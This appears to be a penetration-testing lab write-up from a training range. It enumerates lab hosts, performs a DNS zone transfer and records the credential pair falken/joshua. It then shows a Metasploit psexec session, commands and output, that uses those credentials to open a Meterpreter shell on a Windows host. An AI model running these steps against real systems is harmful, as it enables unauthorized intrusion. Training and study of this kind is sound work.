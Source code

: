 Alternatively, `dig @10.10.10.45 target.tgt –t AXFR` could also be used.

##### Enumeration Notes

+ On 10.10.10.9, SMB access is VERY BAD. We also see VNC, which indicates admins are managing hosts using GUI tools.
+ On 10.10.10.15, multiple ports are filtered, meaning they are inaccessible to us right now. We will need to try to connect to these ports from a different system using lateral movement after initial compromise.
+ On 10.10.10.45, the DNS server, zone transfer is permitted.

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux? | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host | Confirmed? |
| -------- | -------- | ---- | ---------- |
| falken   | joshua   | ???  | No |


#### Exploit 10.10.10.9

The 10.10.10.9 host has SMB access exposed. Try to use known credentials to access this target using Metasploit `psexec`:

<pre>
sec504@slingshot:~$ msfconsole -q
[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.9
RHOSTS => 10.10.10.9
msf5 exploit(windows/smb/psexec) > set SMBUSER falken
SMBUSER => falken
msf5 exploit(windows/smb/psexec) > set SMBPASS joshua
SMBPASS => joshua
msf5 exploit(windows/smb/psexec) > exploit

[*] 10.10.10.9:445 - Connecting to the server...
[*] 10.10.10.9:445 - Authenticating to 10.10.10.9:445 as user 'falken'...
[*] 10.10.10.9:445 - Selecting native target
[*] 10.10.10.9:445 - Uploading payload... YfasgRgQ.exe
[*] 10.10.10.9:445 - Created \YfasgRgQ.exe...
[+] 10.10.10.9:445 - Service started successfully...
[*] 10.10.10.9:445 - Deleting \YfasgRgQ.exe...
[*] Started bind TCP handler against 10.10.10.9:4444
[*] Sending stage (179779 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.76.2:42698 -> 10.10.10.9:4444) at 2019-10-03 12:29:57 +0000
